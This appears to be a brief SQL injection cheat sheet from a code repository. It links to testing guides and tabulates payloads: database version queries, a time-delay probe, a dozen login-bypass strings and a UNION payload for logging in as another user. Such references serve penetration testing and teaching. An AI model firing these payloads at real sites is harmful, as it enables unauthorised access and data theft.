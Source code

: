 

# SQLi
https://portswigger.net/support/using-burp-to-test-for-the-owasp-top-ten

https://portswigger.net/support/using-burp-to-detect-sql-injection-flaws

https://portswigger.net/web-security/sql-injection

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#SyntaxBasicAttacks

### Test: 
| Syntax | Description|
|--------|------------|
| SELECT @@version | Version Info. for Microsoft, MySQL |
| SELECT * FROM v$version | Version Info. for Oracle |
| SELECT version() | Version Info. for PostgreSQL |
| ' UNION SELECT @@version-- | Union Attack To Get Version Info. |
| SELECT * FROM information_schema.tables | Show Tables |
|-- | everything after is a comment|
|' | to test if it will respond to the injection|
|???| Divide by zero to get error message|
|'; waitfor delay('0:0:20')--|use a time delay to verify SQLi works when there is no output|
|admin' -- | login bypass |
|admin' # | login bypass |
|admin'/* | login bypass |
|' OR 1=1--  | login bypass |
|OR 1=1 | login bypass |
|OR 1=2, and | login bypass |
|' or 1=1-- | login bypass |
|' or 1=1# | login bypass |
|' or 1=1/* | login bypass |
|') or '1'='1-- | login bypass |
|') or ('1'='1-- | login bypass |
|a' or 1=1-- | ' for password|
|.... | login bypass |
| ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--| Login as different user |
